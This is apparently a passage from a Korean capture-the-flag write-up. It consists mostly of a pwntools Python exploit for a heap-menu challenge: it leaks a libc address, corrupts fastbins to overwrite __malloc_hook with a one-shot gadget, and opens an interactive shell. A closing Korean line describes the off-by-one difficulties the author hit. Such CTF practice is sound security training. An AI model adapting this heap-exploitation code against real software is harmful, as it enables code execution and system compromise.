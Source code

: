 ```python
def show(idx):
	p.recvuntil(': ')
	p.sendline('3')
	p.recvuntil(': ')
	p.sendline(str(idx))

add(80, 'A\n', 'A')
add(129, 'A\n', 'A')
add(129, 'Z\n', 'Z')
add(20, 'Z'*16 + '\x00', 'Z')

delete(2)

show(3)
p.recvuntil('content: ')

arena = u64(p.recv(6).ljust(8,'\x00'))
libcbase = arena - 0x3C4B78
hook = libcbase + 0x3C4B10
fake = libcbase + 0x3C4AF5 - 0x8
oneshot = libcbase + 0xf02a4

log.info('main_arena+88 : ' + str(hex(arena)))
log.info('Libc Base : ' + str(hex(libcbase)))
log.info('__malloc_hook : ' + str(hex(hook)))
log.info('Fake Size : ' + str(hex(fake+0x8)))
log.info('Oneshot Gadget : ' + str(hex(oneshot)))

add(129, 'A\n', 'A')
add(60, 'A\n', 'A')

add(90, '1\n', '1') # 5
add(90, '1\n', '1')
add(90, 'Z'*16 + '\x00', '1')

delete(5)
delete(6)
delete(7)

add(90, 'A\n', p64(fake))
add(90, 'A\n', 'A')
add(90, 'A\n', 'A')
add(90, 'B\n', 'B'*19 + p64(oneshot))

p.recvuntil('choice: ')
p.sendline('1')
p.recvuntil(': ')
p.sendline('90')

p.interactive()
```
* * *
Off-By-One시 개행 문자 때문에 값이 잘 안 넘어갔던 점과, 하위 1바이트 앞자리를 맞춰주는 작업에서 고생했던 것 같습니다.
